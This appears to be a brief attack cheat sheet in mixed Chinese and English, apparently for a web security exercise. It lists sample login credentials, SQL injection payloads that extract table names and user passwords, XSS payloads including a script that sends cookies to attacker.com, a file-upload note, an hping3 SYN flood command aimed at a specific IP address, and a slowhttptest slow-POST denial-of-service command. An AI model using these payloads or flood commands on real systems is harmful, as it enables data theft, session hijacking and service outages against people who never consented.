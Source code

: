 ID:123
Username:nick
邮箱:1@1
密码：12@323fseEWV

1.SQLi

' or 1=1 -- 

' UNION SELECT null, database() -- 

' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -- 

' UNION SELECT null, concat(username, ':', password) FROM users -- 

1' AND 1=1 --  

1' AND 1=2 -- 

1' AND IF(1=1, SLEEP(3), 0) --  

2. XSS. 
<script>alert('XSS')</script>

<img src="x" onerror="alert(1)">

<input onfocus="alert(1)" autofocus>
<input onblur="alert(1)" autofocus><input autofocus>

<svg onload="alert(1)">

<script>new Image().src="http://attacker.com/log?cookie="+document.cookie</script>

3. upload file
上传多个file在uploadfile文件中

4. TCP/IP攻击
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 158.132.209.43

5. HTTP攻击（使用 `SlowHTTPTest` 工具）
slowhttptest -c 500 -B -g -o outputfile -i 10 -r 200 -t POST -u http://<目标IP>/index.php -x 24 -p 3